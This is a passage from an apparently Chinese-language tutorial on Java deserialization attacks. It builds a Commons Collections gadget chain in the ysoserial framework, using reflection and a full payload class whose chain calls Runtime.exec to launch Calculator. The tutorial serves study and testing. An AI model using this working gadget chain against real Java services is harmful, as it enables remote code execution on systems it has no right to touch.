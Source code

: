 AnnotationInvocationHandler不是public类，外部包不能直接创建。需要通过反射setAccessible(true)设置访问其中的私有方法。于是就有下面的代码

```
Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor ctor = cls.getDeclaredConstructor(new Class[] `{` Class.class, Map.class `}`);
ctor.setAccessible(true);
Object instance = ctor.newInstance(new Object[] `{` Retention.class, outMap `}`);
```

**<a class="reference-link" name="5.%20%E7%BC%96%E5%86%99%E6%B5%8B%E8%AF%95%E4%BB%A3%E7%A0%81"></a>5. 编写测试代码**

通过对ysoserial框架的分析，PayloadRunner是payload的测试方法，其中包含了序列化与模拟反序列化操作，主要测试反序列化链的攻击效果。代码如下

```
public static void main(String[] args) throws Exception `{`
    PayloadRunner.run(mytest.class, args);
`}`
```

**<a class="reference-link" name="6.%20%E6%95%B4%E4%BD%93%E4%BB%A3%E7%A0%81"></a>6. 整体代码**

自己编写的类需要继承和实现PayloadRunner类和ObjectPayload接口，方便测试和Payload生成，重写getObject方法并返回构造好的序列化链对象。

```
public class mytest extends PayloadRunner implements ObjectPayload&lt;Object&gt; `{`
    public Object getObject(final String command) throws Exception `{`
        Transformer[] transformers = new Transformer[]`{`
            new ConstantTransformer(Runtime.class),
//            new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("getMethod", new Class[] `{` String.class, Class[].class `}`, new Object[] `{`"getRuntime", new Class[0] `}`),
                new InvokerTransformer("invoke", new Class[]`{`Object.class, Object[].class`}`, new Object[]`{`null, new Object[0]`}`),
            new InvokerTransformer("getRuntime", null, null),
            new InvokerTransformer("exec", new Class[]`{`String.class`}`, new Object[]`{`"/System/Applications/Calculator.app/Contents/MacOS/Calculator"`}`)
        `}`;
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        Map inMap = new HashMap();
        inMap.put("value", "aa");
        Map outMap = TransformedMap.decorate(inMap, null, chainedTransformer);
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cls.getDeclaredConstructor(new Class[] `{` Class.class, Map.class `}`);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(new Object[] `{` Retention.class, outMap `}`);
        return instance;
    `}`
    public static void main(String[] args) throws Exception `{`
        PayloadRunner.run(mytest.class, args);
    `}`

`}`
```

